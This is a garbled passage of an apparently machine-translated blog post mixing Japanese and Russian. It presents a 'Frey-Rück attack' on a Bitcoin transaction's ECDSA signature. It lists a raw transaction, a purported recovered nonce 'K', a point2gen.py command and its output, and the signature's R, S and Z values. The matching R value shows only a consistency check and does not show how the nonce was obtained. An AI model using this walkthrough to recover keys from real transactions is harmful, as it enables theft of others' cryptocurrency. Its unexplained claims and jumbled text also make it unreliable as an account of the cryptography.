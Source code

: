 RawTX = 010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000</code></pre>



<p><code>"Deployments ECDSA"</code>ビットコイン ブロックチェーン トランザクションの重大な脆弱性を意味する碑文が表示されます。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0xa63d1fe332773809f41bc0d67262088d918a34a71444e30c19424c64b13e6e3c</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><em>Python</em>スクリプトで確認してみましょう<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>ECPy</strong></a>楕円曲線ライブラリを使用しましょう:</p>



<p>次のように指定してスクリプトを実行しましょう<code>&nbsp;секретный ключ "K" (NONCE)</code>。</p>



<pre class="wp-block-code"><code>python3 point2gen.py 0xa63d1fe332773809f41bc0d67262088d918a34a71444e30c19424c64b13e6e3c</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-58-1024x85.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-1003"/></figure>



<p><code>(0x3458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d , 0x8d8650fddf514e1263e18650a0e72c08f20eeb3c34ad0dd13b3792b890d3ca44)</code></p>



<p><code>EC (secp256k1)&nbsp;</code>署名値でポイントの座標を確認する<code>R</code></p>



<pre class="wp-block-code"><code>R = 0x3458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d
S = 0x445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d0913
Z = 0x8b65d49dde9949e5ea18ae637d7f4f48c7c3b38957892a94a3bab994fec4eee7</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>R          =    0x3458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d
point2gen  =   (0x3458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d , 0x8d8650fddf514e1263e18650a0e72c08f20eeb3c34ad0dd13b3792b890d3ca44)
</code></pre>
